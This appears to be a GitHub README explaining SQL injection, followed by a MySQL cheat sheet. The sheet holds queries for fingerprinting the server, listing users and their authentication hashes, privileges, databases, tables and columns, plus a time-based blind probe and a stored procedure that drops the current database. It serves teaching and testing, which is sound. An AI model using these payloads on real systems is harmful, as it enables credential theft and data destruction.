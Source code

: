 # SQL injection
SQL injection (SQLi) is an application security weakness that allows attackers to control an application’s database – letting them access or delete data, change an application’s data-driven behavior, and do other undesirable things – by tricking the application into sending unexpected SQL commands. 

SQL injection weaknesses occur when an application uses untrusted data, such as data entered into web form fields, as part of a database query. When an application fails to properly sanitize this untrusted data before adding it to a SQL query, an attacker can include their own SQL commands which the database will execute. Such SQLi vulnerabilities are easy to prevent, yet SQLi remains a leading web application risk, and many organizations remain vulnerable to potentially damaging data breaches resulting from SQL injection.

### Commands that can be used to run sql injection

<table border="1">
<tbody>
<tr>

<td>Version</td>
<td>


```sql
SELECT @@version
```

</td>
</tr>



<tr>
<td>Location of DB files</td>
<td>

```sql
SELECT @@datadir;
```

</td>
</tr>


</tr>

<tr>
<td>Hostname, IP Address</td>
<td>

```sql
SELECT @@hostname;
```

</td>
</tr>

<tr>
<td>Create Users</td>
<td>

```sql
CREATE USER test1 IDENTIFIED BY 'pass1'; 
```

</td>
</tr>
<tr>
<td>Delete Users</td>
<td>

```sql
DROP USER test1; 
```

</td>
</tr>

<tr>
<td>Current User</td>
<td>


```sql
SELECT user();
SELECT system_user();
```

</td>
</tr>
<tr>
<td>List Users</td>
<td>

```sql
SELECT user FROM mysql.user;
```

</td>
</tr>
<tr>
<td>List Host info</td>
<td>

```sql
SELECT host, user, authentication_string FROM mysql.user;

```
</td>
</tr>
<tr>
<td>List Privileges</td>
<td>

```sql
SELECT grantee, privilege_type, is_grantable 
FROM information_schema.user_privileges; -- list user privs


SELECT host, user, Select_priv, Insert_priv, 
Update_priv, Delete_priv, Create_priv, Drop_priv, 
Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, 
References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, 
Create_tmp_table_priv, Lock_tables_priv, 
Execute_priv, Repl_slave_priv, Repl_client_priv 
FROM mysql.user;

 
SELECT grantee, table_schema, privilege_type 
FROM information_schema.schema_privileges;


SELECT table_schema, table_name, column_name, privilege_type 
FROM information_schema.column_privileges; -- list privs on columns
```

</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>

```sql
SELECT grantee, privilege_type, is_grantable 
FROM information_schema.user_privileges 
WHERE privilege_type = 'SUPER';

SELECT host, user 
FROM mysql.user WHERE Super_priv = 'Y'; 
```

</td>
</tr>
<tr>
<td>Current Database</td>
<td>

```sql
SELECT database()
```

</td>
</tr>
<tr>
<td>List Databases</td>
<td>

```sql
/*option 1*/
SELECT schema_name FROM information_schema.schemata;

/*option 2*/
SELECT DISTINCT TABLE_SCHEMA
FROM information_schema.columns; 
```

</td>

<tr>
<td>List Tables</td>
<td>

```sql
/* 
Get all table names that are in 'mysql' db
*/
SELECT DISTINCT TABLE_NAME
FROM information_schema.columns 
WHERE TABLE_SCHEMA='mysql';
```

</td>
</tr>

</tr>
<tr>
<td>List Columns</td>
<td>

```sql

/* 
Get all column names of 'servers' table, that is in 'mysql' db
*/
SELECT COLUMN_NAME, DATA_TYPE, COLUMN_TYPE, COLUMN_DEFAULT, IS_NULLABLE, COLUMN_KEY
FROM information_schema.columns 
WHERE TABLE_SCHEMA = 'mysql' AND TABLE_NAME='servers';
```

</td>
</tr>

<tr>
<td>Find Tables From Column Name</td>
<td>

```sql
/*
find table which have a column called ‘username’
*/
SELECT TABLE_SCHEMA, TABLE_NAME 
FROM information_schema.columns 
WHERE COLUMN_NAME = 'username'; 
```

</td>
</tr>


<tr>
<td>ASCII Value to Char</td>
<td>


```sql
SELECT char(65); # returns A
```

</td>
</tr>
<tr>
<td>Char to ASCII Value</td>
<td>

```sql
SELECT ascii('A'); # returns 65
```

</td>
</tr>
<tr>
<td>Casting</td>
<td>

```sql
SELECT cast('1' AS unsigned integer);
SELECT cast('123' AS char);
```

</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>


```sql
SELECT CONCAT('A','B'); #returns AB
SELECT CONCAT('A','B','C'); # returns ABC
SELECT CONCAT('A',char(cast('39' AS unsigned integer))); # returns A'
```

</td>
</tr>

<tr>
<td>Select Nth Char</td>
<td>

```sql
SELECT substr('abcd', 3, 1); # returns c
```

</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>

```sql
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

</td>
</tr>

<tr>
<td>If Statement</td>
<td>

```sql
SELECT if(1=1,'foo','bar'); # returns ‘foo’
```

</td>
</tr>
<tr>
<td>Case Statement</td>
<td>

```sql
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```
</td>
</tr>

<tr>
<td>Time Delay</td>
<td>

```sql
SELECT SLEEP(5);
```

</td>
</tr>

<tr>
<td>Comments</td>
<td>


```sql
SELECT 1; #comment
SELECT /*comment*/1;
```

</td>


</tr>

</tbody>
</table>


### Sql injection examples 1
```sql
SELECT if(@@version LIKE '%ubuntu0.18.04.4%',SLEEP(5),'non_ubuntu');
```


### Sql injection examples 1
```sql
DELIMITER $$
CREATE PROCEDURE dropCurrentDb()
BEGIN

SET @query = CONCAT("DROP DATABASE ",DATABASE());
PREPARE stmt1 FROM @query; 
EXECUTE stmt1; 
DEALLOCATE PREPARE stmt1; 

END$$
 
DELIMITER ;


CALL dropCurrentDb()
```